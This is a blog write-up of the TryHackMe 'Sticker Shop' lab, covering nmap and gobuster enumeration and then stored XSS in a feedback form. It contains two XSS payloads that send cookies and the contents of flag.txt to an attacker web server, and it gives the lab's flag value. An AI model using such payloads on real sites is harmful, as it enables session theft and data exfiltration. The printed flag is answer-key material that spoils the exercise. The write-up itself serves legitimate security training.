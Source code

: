 ```yaml
---
date: 2024-12-04T16:26:19-06:00
# description: ""
image: "/images/THM-The_Sticker_Shop/Sticker_shop.png"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: The Sticker Shop"
type: "post"
---
```


* Platform: TryHackMe
* Link: [The Sticker Shop](https://tryhackme.com/r/room/thestickershop)
* Level: Easy
---

This is a pretty straightforward room where we need to leverage a Cross-Site Scripting vulnerability in order to read the flag. 

## Scanning

```
./nmap_scan.sh <IP_PROVIDED> The_Sticker_Shop
```

> You can find the script I use to scan targets [here](https://github.com/K-Scorpio/scripts-collection/blob/main/nmap_scan.sh).

**Results**

```shell
Running detailed scan on open ports: 22,8080
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 16:38 CST
Nmap scan report for 10.10.139.96
Host is up (0.27s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.8.10
|     Date: Wed, 04 Dec 2024 22:38:16 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1655
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Cat Sticker Shop</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     margin: 0;
|     padding: 0;
|     header {
|     background-color: #333;
|     color: #fff;
|     text-align: center;
|     padding: 10px;
|     header ul {
|     list-style: none;
|     padding: 0;
|     header li {
|     display: inline;
|     margin-right: 20px;
|     header a {
|     text-decoration: none;
|     color: #fff;
|     font-weight: bold;
|     .content {
|     padding: 20px;
|_    .product {
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=12/4%Time=6750D9D8%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,726,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.1\
SF:x20Python/3\.8\.10\r\nDate:\x20Wed,\x2004\x20Dec\x202024\x2022:38:16\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x201655\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<he
SF:ad>\n\x20\x20\x20\x20<title>Cat\x20Sticker\x20Shop</title>\n\x20\x20\x2
SF:0\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20{\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#333;\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20center;\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20ul
SF:\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20list-style:\x20n
SF:one;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20heade
SF:r\x20li\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20display:\
SF:x20inline;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin-righ
SF:t:\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20header\x20a\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20text-decoration:\x20none;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20font-weight:\x20bold;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\.content\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20padding:\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\.product\x20{\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20bo");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.37 seconds
```

We find two open ports: 22 (SSH) and 8080 (http).

## Enumeration

At `http://stickershop.thm:8080/` we discover a cat sticker shop website.

![The sticker shop website](/images/THM-The_Sticker_Shop/stickershop_website.png)

Clicking on the `Feeback` leads to `http://stickershop.thm:8080/submit_feedback`, a section for customer feedback.

![The sticker shop feedback section](/images/THM-The_Sticker_Shop/stckershop_feedback.png)

The page source code does not have anything interesting. Trying to directly read the flag at `http://10.10.139.96:8080/flag.txt` returns a `401 Unauthorized` error.

![flag read fail](/images/THM-The_Sticker_Shop/flag_401.png)

After running some directory brute forcing with gobuster we find a `/view_feedback` directory which we cannot access.

![gobuster directory brute forcing](/images/THM-The_Sticker_Shop/gobuster_stickershop.png)

![stickershop view feedback](/images/THM-The_Sticker_Shop/stickershop_view_feedback.png)

### XSS Exploitation to Obtain the flag

The hint tells us that we need to use some client-side exploitation in order to read the flag, so we will try Cross-Site Scripting (XSS). 

Let's start with a test, we start a web server on our local machine and send the payload at `http://stickershop.thm:8080/submit_feedback`.

```html
<script>document.location='http://WEBSERVER_IP/?cookie='+document.cookie;</script>
```

![XSS payload test](/images/THM-The_Sticker_Shop/XSS_payload_sent.png)

After submitting the payload we get some responses on our web server, confirming the XSS vulnerability.

![XSS confirmation](/images/THM-The_Sticker_Shop/xss_confirm.png)

We already know that the flag is at `http://10.10.139.96:8080/flag.txt`, so we can use a modified payload in order to receive it on our web server.

```html
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    let img = new Image();
    img.src = 'http://WEBSER_IP:PORT/?data=' + encodeURIComponent(data);
    document.body.appendChild(img);
  });
</script>
```

![payload to receiver flag.txt](/images/THM-The_Sticker_Shop/flag_fetching.png)

![flag on webser](/images/THM-The_Sticker_Shop/flag_on_webserver.png)

We obtain the value of `flag.txt` with the curly brackets encoded. The decoded value is 

```
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

TryHackMe has an excellent room to learn about all sort of XSS vulnerabilities (reflected, stored, DOM-based), you can find it [here](https://tryhackme.com/r/room/axss).

If you need a list of payloads for XSS, you can go to the [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) from PortSwigger or [this Github repo](https://github.com/djalilayed/tryhackme/blob/main/The%20Sticker%20Shop/payload.js).
